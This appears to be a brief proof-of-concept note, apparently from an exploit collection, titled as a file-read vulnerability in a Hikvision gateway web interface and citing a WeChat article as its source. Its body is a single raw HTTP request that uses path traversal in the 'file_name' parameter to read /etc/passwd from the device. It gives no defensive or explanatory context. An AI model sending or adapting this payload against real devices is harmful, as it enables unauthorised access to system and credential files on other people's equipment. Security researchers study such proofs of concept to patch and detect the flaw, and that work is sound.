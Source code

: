 # hikivision_gateway_webuifileread

from: https://mp.weixin.qq.com/s/ruWoQZcV_mN944xaHd6Jng
```
GET /webui/?file_name=../../../../../etc/passwd&g=sys_dia_data_down HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: USGSESSID=b75bce9897c9e543ab7be9ac44af4f76
Upgrade-Insecure-Requests: 1
```
